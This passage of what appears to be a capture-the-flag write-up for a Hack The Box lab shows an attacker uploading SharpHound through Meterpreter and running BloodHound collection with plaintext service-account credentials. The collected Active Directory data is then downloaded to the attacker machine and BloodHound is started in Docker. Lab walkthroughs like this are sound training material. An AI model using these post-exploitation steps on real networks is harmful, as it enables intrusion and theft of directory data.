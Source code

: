 Next up, we upload `SharpHound.ps1` to the box and run it.
{% highlight raw %}
meterpreter > upload SharpHound.ps1 .
[*] uploading  : SharpHound.ps1 -> .
[*] uploaded   : SharpHound.ps1 -> .\SharpHound.ps1
meterpeter > shell
Process 2476 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\svc-alfresco\Documents> powershell
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
PS C:\Users\svc-alfresco\Documents> Import-Module .\SharpHound.ps1
Import-Module .\SharpHound.ps1
PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice
Invoke-BloodHound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice
Initializing BloodHound at 8:42 AM on 11/16/2019
Resolved Collection Methods to Group, LocalAdmin, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets
Starting Enumeration for htb.local
Status: 124 objects enumerated (+124 41.33333/s --- Using 70 MB RAM )
Finished enumeration for htb.local in 00:00:03.7645465
1 hosts failed ping. 0 hosts timedout.

Compressing data to C:\Users\svc-alfresco\Documents\20191116084214_BloodHound.zip.
You can upload this file directly to the UI.
Finished compressing files!
{% endhighlight %}

And now to retrieve the compressed file back to our system.
{% highlight raw %}
PS C:\Users\svc-alfresco\Documents> exit
C:\Users\svc-alfresco\Documents> exit
meterpreter > download 20191116084214_BloodHound.zip
[*] downloading  : 20191116084214_BloodHound.zip. -> /root/Desktop
[*] downloaded   : 20191116084214_BloodHound.zip. -> /root/Desktop/20191116084214_BloodHound.zip
{% endhighlight %}

And now the moment you have been waiting for, witness the capabilities of `BloodHound`! 
There are actually 2 ways to run `BloodHound`, first being running it on your own system and secondly being running it in a `Docker` container. Since it is extremely troublesome to set up, I will be using this image [`belane/bloodhound`](https://github.com/belane/docker-bloodhound).

{% highlight bash %}
$ docker run -it \
-p 7474:7474 \
-e DISPLAY=unix$DISPLAY \
-v /tmp/.X11-unix:/tmp/.X11-unix \
--device=/dev/dri:/dev/dri \
--name bloodhound belane/bloodhound
{% endhighlight %}
